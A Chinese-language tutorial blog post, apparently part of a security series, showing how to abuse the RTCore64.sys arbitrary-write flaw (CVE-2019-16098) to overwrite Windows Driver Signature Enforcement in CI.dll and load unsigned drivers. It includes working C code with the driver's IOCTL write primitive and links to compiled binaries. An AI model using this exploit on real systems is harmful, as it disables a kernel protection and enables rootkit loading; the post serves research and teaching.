

# 【第 22 話】攻擊數位簽章機制

## 文章大綱
在[【第 21 話】驅動程式數位簽章](/asset/第%2021%20話)我們認識了數位簽章，並且用 WinDbg 竄改 DSE，載入未簽章的驅動程式。

這篇要結合[【第 14 話】CVE-2019-16098 研究－任意讀寫虛擬記憶體](/asset/第%2014%20話) RTCore64.sys 的任意讀寫漏洞，透過有漏洞的驅動程式竄改 DSE，藉此載入未簽章的驅動程式。

## 實作步驟
原理的部分在[【第 21 話】驅動程式數位簽章](/asset/第%2021%20話)有介紹過，這篇會注重在實作的流程。

1. 檢查版本
2. 找到 CI.dll 起始位址
3. 用特徵找到 DSE 的位址
4. 竄改 DSE

### 1. 檢查版本
在 Windows 8 之前，DSE 的位置在 ntoskrnl.exe；在 Windows 8 之後，DSE 的位置在 CI.dll。

所以第一步驟很簡單，用 [NtCurrentTeb](https://learn.microsoft.com/en-us/windows/win32/api/winnt/nf-winnt-ntcurrentteb) 取得 `OSBuildNumber` 確認版本號。

我們的環境是 Windows 10 1709，所以 DSE 在 CI.dll 中，以下講解 CI.dll 的部分，但其實找 ntoskrnl.exe 的方式也差不多。

### 2. 找到 CI.dll 起始位址
因為下一步準備要在 CI.dll 中找到 DSE，所以要先取得 CI.dll 的起始位址。跟 ntoskrnl.exe 一樣，雖然副檔名都不是 .sys，但也是驅動程式。用 DriverView 可以觀察 CI.dll 的資訊。



取得 CI.dll 起始位址也很簡單，首先用 [NtQuerySystemInformation](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntquerysysteminformation) 取得列舉所有 Module，然後比對是不是目標 Module Name，藉此取得起始位址。

### 3. 用特徵找到 DSE 的位址
在 CI.dll 中找 DSE 的過程偏繁瑣，但概念很簡單，就是找特徵，大致步驟如下。

1. Parse PE 結構
2. 找到 `CiInitialize` 的位置
3. 根據不同版本找不同的特徵來定位 DSE 的位置


### 4. 竄改 DSE
找到 DSE 後，重要的最後一步是利用漏洞竄改 DSE。這篇利用的是在[【第 14 話】CVE-2019-16098 研究－任意讀寫虛擬記憶體](/asset/第%2014%20話)講解過的 RTCore64.sys，其中的任意讀寫的漏洞可以幫我們修改 Kernel 的記憶體。這個技巧也跟[【第 20 話】BYOVD 攻擊](/asset/第%2020%20話)中介紹的 BlackByte 相似。


## 寫程式
程式主要參考 [hfiref0x/DSEFix](https://github.com/hfiref0x/DSEFix)，我新增了竄改 DSE 的部分還有加一些中文註解。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/AbuseDSE)。

### 取得 DSE 位址

```c
// 1. 檢查版本，Windows 8 build 9200  以後 DSE 在 CI.dll，之前則是在 ntoskrnl.exe
if (NtCurrentPeb()->OSBuildNumber >= 9200)
{
    // 2. 取得 CI.dll 的起始位址
    ULONG_PTR CiDllBase;
    Status = FindKernelModule(CiDll, &CiDllBase);
    if (!NT_SUCCESS(Status))
        goto Exit;

    // 3. 在 CI.dll 中用特徵找到 DSE 的位址
    ULONG_PTR gCiOptionsAddress;
    const LONG Rel = QueryCiOptions(MappedBase, CiDllBase, &gCiOptionsAddress);
    if (Rel != 0)
    {
        *CiOptionsAddress = reinterpret_cast<PVOID>(gCiOptionsAddress);
        Status = STATUS_SUCCESS;
    }
    else
    {
        Status = STATUS_NOT_FOUND;
    }
}
```

### 攻擊 RTCore64.sys 並竄改 DSE
```c
struct RTCORE64_MEMORY
{
    BYTE Pad0[8];
    DWORD64 Address;
    BYTE Pad1[8];
    DWORD ReadSize;
    DWORD Value;
    BYTE Pad3[16];
};

void WriteMemoryPrimitive(HANDLE Device, DWORD Size, DWORD64 Address, DWORD Value)
{
    RTCORE64_MEMORY MemoryRead {};
    MemoryRead.Address = Address;
    MemoryRead.ReadSize = Size;
    MemoryRead.Value = Value;

    // 觸發 RTCore64.sys 的任意寫漏洞
    DWORD BytesReturned;
    DeviceIoControl(Device, 0x8000204c, &MemoryRead, sizeof(MemoryRead), &MemoryRead, sizeof(MemoryRead), &BytesReturned,
                    nullptr);
}

int main(int argc, char* argv[])
{
    // 取得 Device Handle
    HANDLE hDevice = CreateFile(L"\\\\.\\RTCore64", GENERIC_READ | GENERIC_WRITE, 0, nullptr, OPEN_EXISTING, 0, nullptr);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("Get Driver Handle Error with Win32 error code: %x\n", GetLastError());
        return 1;
    }

    // 取得 DSE 的位址
    PVOID DSE;
    NTSTATUS Status = AnalyzeCi(&DSE);

    // 4. 竄改 DSE 的值成 0
    WriteMemoryPrimitive(hDevice, 1, (DWORD64)DSE, 0);

    return 0;
}
```

## 測試
1. 在 VM 中載入 [RTCore64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2019-16098/bin/RTCore64.sys)
2. 嘗試載入未簽章的 [AbuseEprocessTokenDrv.sys](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessTokenDrv.sys)，會發現驅動程式無法載入
3. 執行 [AbuseDSE.exe](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseDSE/bin/AbuseDSE.exe) 之後，再嘗試一次就可以成功載入未簽章的驅動程式。


## 參考資料
- [hfiref0x/DSEFix](https://github.com/hfiref0x/DSEFix)
- [Ring0 Rootkit－在 Windows Kernel 與病毒共存](https://hitcon.org/2022/agenda/117f12aa-6166-4083-b317-8b994dbf7a96)